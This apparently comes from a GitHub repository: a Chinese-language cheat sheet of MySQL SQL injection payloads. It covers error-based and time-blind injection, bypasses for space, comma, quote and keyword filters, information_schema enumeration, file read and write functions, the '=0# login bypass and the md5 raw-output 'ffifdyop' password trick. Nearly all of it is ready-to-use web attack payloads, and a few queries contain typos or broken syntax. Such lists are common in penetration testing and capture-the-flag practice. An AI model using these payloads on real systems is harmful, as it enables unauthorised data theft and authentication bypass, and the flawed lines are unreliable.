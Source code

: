 [TOC]
### 注入方法相关
#### Error Based
* `and (select 1 from (select count(*),concat((inject here),floor(rand(0)*2))x from information_schema.tables group by x)a)`
* `and 1=(updatexml(1,concat(0x5e24,(inject here),0x5e24),1))`
* `and extractvalue(1, concat(0x5c, (inject here)))`

#### Time Based Blind
* `sleep(3)`
* `benchmark(10000000, sha1('true'))`

### 过滤
#### 空格过滤
* 注释代替空格 `/**/`
* 行注释回车替代空格（参见sqlmap tamper space2mysqldash）
* 其他符号代理空格 `%20 %09 %0d %0b %0c %0d %a0 %0a`
* 括号过滤 `()`

#### 逗号（,）过滤
使用join绕过：
```sql
UNION SELECT 1,2,3,4 FROM ...
```
```sql
UNION SELECT * FROM ((SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)C JOIN (SELECT 4)D)
```
#### 引号（字符串）过滤
* 使用16进制
	`SELECT 0x61646D696E;`
* 使用CHAR函数
	`SELECT CHAR(97, 100, 109, 105, 110);`

#### 黑名单字符串
* 直接select
	`SELECT 'a' 'd' 'mi' 'n';`
* 使用concat
	`SELECT CONCAT('a', 'd', 'm', 'i', 'n');`
* 使用concat_ws
	`SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');`

#### 关键词过滤
* 双写
* 随缘大小写

### 绕过
#### addslashes
>  Returns a string with backslashes added before characters that need to be escaped. These characters are:
>
> * single quote (') ->\\'
* double quote (") -> \\"
* backslash (\\) -> \\\\
* NUL (the NUL byte) \\0

* 宽字节注入
* 格式化字符串漏洞

### 常用变量、函数
* `user()`
* `database()`
* `version()`
* `@@datadir()`
* `concat()`
* `grop_concat()`
* `hex() unhex()`
* `load_file()`
* `SELECT OOXX INTO OUTFILE ''`


### 字段位置备忘
#### 表名
* raw
```sql
SELECT GOUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database();
```
* union
```sql
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
* blind
```sql
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```
#### 列名
```sql
SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
```
### 其他
#### 万能密码
* `'=0#`
	```sql
SELECT * FROM user WHERE username=''=0#';
	```

#### php
php中md5($password, true)的漏洞利用
```sql
SELECT * FROM user WHERE username=`admin` and password=md5($password, true)
```
password:`ffifdyop`
md5之后的字符串`'or'6<trash>`
